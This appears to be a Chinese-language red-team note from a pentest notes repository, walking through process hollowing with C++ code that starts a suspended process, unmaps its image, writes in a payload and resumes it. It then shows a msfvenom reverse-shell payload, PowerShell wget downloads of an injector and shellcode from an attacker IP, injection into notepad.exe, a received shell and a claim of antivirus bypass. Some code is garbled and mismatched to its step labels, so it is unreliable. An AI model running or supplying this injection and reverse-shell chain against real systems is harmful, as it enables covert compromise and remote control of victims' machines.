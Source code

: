 	https://www.autosectools.com/Process-Hollowing.pdf
	https://github.com/reevesrs24/EvasiveProcessHollowing
	第 1 步：创建一个处于挂起状态的新进程：
	设置了CREATE_SUSPENDED标志的CreateProcessA()
```c++
printf("Creating process\r\n");
LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();
CreateProcessA
(
                0,
                pDestCmdLine,
                0,
                0,
                0,
                CREATE_SUSPENDED,
                0,
                0,
                pStartupInfo,
                pProcessInfo
);
 
if (!pProcessInfo->hProcess)
{
                printf("Error creating process\r\n");
                return;
}
```
	第 2 步：交换其内存内容（取消映射/挖空）：
	NtUnmapViewOfSection()
	可以使用以下方法完成：
	NtQueryProcessInformation + ReadProcessMemory
	此外，可以使用单个函数轻松完成：
	ReadRemotePEB(pProcessInfo->hProcess) PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
	从 PEB 的图像地址读取 NT Headers 格式（从 PE 结构）。这是必不可少的，因为它包含与操作系统相关的信息，这些信息在进一步的代码中需要。这可以使用    ReadRemoteImage() 来完成。pImage 是指向 hProcess 句柄和 ImageBaseAddress 的指针。
```c++
PLOADED_IMAGE pImage = ReadRemoteImage
(
pProcessInfo- > hProcess,
pPEB- > ImageBaseAddress
);
```
	第 3 步：在此未映射区域中输入恶意负载：
	VirtualAllocEx :分配新内存
	WriteProcessMemory()：写入每个恶意软件部分以针对进程空间
```c++
printf("Unmapping destination section\r\n");
HMODULE hNTDLL = GetModuleHandleA("ntdll");                                                                                                                                  
FARPROC fpNtUnmapViewOfSection = GetProcAddress  
(
            hNTDLL,                                                                                             
            "NtUnmapViewOfSection"                                      
);
 
_NtUnmapViewOfSection NtUnmapViewOfSection =
(_NtUnmapViewOfSection)fpNtUnmapViewOfSection;   
 
DWORD dwResult = NtUnmapViewOfSection
(
            pProcessInfo->hProcess,
            pPEB->ImageBaseAddress
);
```
	第 4 步：将 EAX 设置为入口点：
	设置线程上下文（）
```c++
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
{
            if (!pSourceImage->Sections[x].PointerToRawData)
                        continue;
            PVOID pSectionDestination =          (PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);
}
```
		第 5 步：启动挂起的线程：
		恢复线程（）
```c++
for (DWORD y = 0; y < dwEntryCount; y++)
{
            dwOffset += sizeof(BASE_RELOCATION_ENTRY);
            if (pBlocks[y].Type == 0)
                        continue;
            DWORD dwFieldAddress = pBlockheader->PageAddress + pBlocks[y].Offset;
            DWORD dwBuffer = 0;
            ReadProcessMemory
            (
                        pProcessInfo->hProcess,
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
            );
            dwBuffer += dwDelta;
            BOOL bSuccess = WriteProcessMemory
            (
                        pProcessInfo->hProcess,
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
            );
}
```
	第 6 步：将 EAX 设置为入口点并恢复线程
```c++
LPCONTEXT pContext = new CONTEXT () ; 
pContext- > ContextFlags = CONTEXT_INTEGER;
GetThreadContext ( pProcessInfo- > hThread, pContext )
DWORD dwEntrypoint = ( DWORD ) pPEB- > ImageBaseAddress + pSourceHeaders- > OptionalHeader。AddressOfEntryPoint ;
pContext- > Eax = dwEntrypoint;                              //EAX设置为入口点
SetThreadContext ( pProcessInfo- > hThread, pContext )
ResumeThread ( pProcessInfo- > hThread ) //线程恢复   
```
	第 7 步：用自定义代码替换正版进程
```c++
pPath[strrchr(pPath, '\\') - pPath + 1] = 0;
strcat(pPath, "helloworld.exe");
CreateHollowedProcess("svchost",pPath);
```
	在 PoC 的第 1 部分中，编写了一个 Process Hollowing exe，其中包含一个小的 PoC 代码弹出窗口，该弹出窗口被注入到一个合法的 explorer.exe 进程中。这是一个独立的 EXE，因此，硬编码的弹出可以替换为 msfvenom shellcode，为您自己的 C2 服务器提供反向 shell。
	签入进程资源管理器后，我们看到一个新的 explorer.exe 进程已创建，其指定的进程 ID 相同，表明我们的 EXE 已使用空心技术成功伪装。

![image](/assets/Pentest_Note/master/red/3.png)

	https://github.com/3xpl01tc0d3r/ProcessInjection
	该工具将原始 shellcode 作为文本文件的输入，并注入用户指定的合法进程。可以使用 Visual Studio 下载和编译发布（转到 Visual Studio->打开 .sln 文件->构建发布）
	$ msfvenom -p windows/x64/shell_reverse_tcp exitfunc=thread LHOST=192.168.0.89 LPORT=1234 -f hex

![image](/assets/Pentest_Note/master/red/4.png)
  
	传到目标机器执行
	$ powershell wget 192.168.0.89/ProcessInjection.exe -O ProcessInjection.exe
	$ powershell wget 192.168.0.89/hex.txt -O hex.txt
	$ ProcessInjection.exe /t:3 /f:hex /path:"hex.txt" /ppath:"c:\windows\system32\notepad.exe"

![image](/assets/Pentest_Note/master/red/5.png)

	收到shell
  
![image](/assets/Pentest_Note/master/red/6.png)
![image](/assets/Pentest_Note/master/red/7.png)
![image](/assets/Pentest_Note/master/red/8.png)
![image](/assets/Pentest_Note/master/red/9.png)

	在进程资源管理器中，我们看到生成了一个新的 notepad.exe，其 PID 与创建新进程的 PID 相同，并且绕过了AV
